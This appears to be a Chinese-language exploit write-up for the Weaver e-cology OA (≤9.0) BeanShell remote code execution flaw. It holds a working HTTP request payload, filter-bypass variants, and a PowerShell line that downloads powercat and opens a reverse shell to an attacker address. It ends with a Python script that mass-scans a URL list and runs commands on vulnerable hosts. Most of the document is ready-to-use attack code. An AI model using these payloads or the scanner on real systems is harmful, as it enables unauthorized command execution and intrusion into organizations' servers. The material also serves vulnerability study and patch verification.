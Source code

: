 泛微OA E-cology \<=9.0 远程代码执行漏洞
=======================================

一、漏洞简介
------------

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology
OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口,
可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行,
漏洞等级严重.

二、漏洞影响
------------

e-cology \<=9.0

三、复现过程
------------

### 漏洞指纹

    Set-Cookie: ecology_JSessionId=

ecology

    /weaver/bsh.servlet.BshServlet

### 漏洞复现

    POST /weaver/bsh.servlet.BshServlet HTTP/1.1
    Host: www.0-sec.org:8088
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Length: 98
    Content-Type: application/x-www-form-urlencoded

    bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw

***利用技巧***

-   1.其他形式绕过

```{=html}
<!-- -->
```
    eval%00("ex"%2b"ec(\"whoami\")"); 也可以换成 ex\u0065c("cmd /c dir");

-   2.泛微多数都是windows环境, 反弹shell可以使用pcat

```{=html}
<!-- -->
```
    powershell IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd

### poc

useage

    #1.install python Dependencies Library 
    pip install requests

    #2.批量脚本 执行 
    python Weaver-Ecology-OA_RCE-exp.py 


    url.txt文件中 是url地址 需要带http协议
    #/usr/bin/python
    #coding:utf-8
    #Author:Ja0k
    #For Weaver-Ecology-OA_RCE

    import urllib3
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    import requests,sys

    headers = {
        'Content-Type': 'text/xml; charset=utf-8',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0',
        'Cache-Control': 'max-age=0',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Upgrade-Insecure-Requests': '1',
        'Content-Length': '578'
    }

    proxies= {'http':'http://127.0.0.1:8080'}
                
    def Poc_check(target):

        Url_Payload1="/bsh.servlet.BshServlet"
        Url_Payload2="/weaver/bsh.servlet.BshServlet"
        Url_Payload3="/weaveroa/bsh.servlet.BshServlet"
        Url_Payload4="/oa/bsh.servlet.BshServlet"
        
        Data_Payload1="""bsh.script=exec("whoami");&bsh.servlet.output=raw"""
        Data_Payload2= """bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"""
        Data_Payload3= """bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter(\\"command\\"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami"""
        for Url_Payload in (Url_Payload1,Url_Payload2,Url_Payload3,Url_Payload4):
            url= target + Url_Payload
            for Data_payload in (Data_Payload1,Data_Payload2,Data_Payload3): 
                try:
                    http_response = requests.post(url,data=Data_payload,headers=headers,verify=False)
                    #print http_response.status_code
                    if http_response.status_code == 200:
                        if ";</script>" not in (http_response.content):
                            if "Login.jsp" not in (http_response.content):
                                if "Error" not in (http_response.content):
                                    print "{0} is a E-cologyOA_RCE Vulnerability".format(url)
                                    print "Server Current Username：{0}".format(http_response.content)
                    elif http_response.status_code == 500:
                        print "{0}500 maybe is Weaver-EcologyOA，Please confirm by yourself ".format(url)
                    else:
                        pass              
                except Exception,Error:
                    pass    
        
    if __name__ == '__main__':
        for line in open(sys.argv[1]).readlines():
            target=line.strip()
            Poc_check(target)
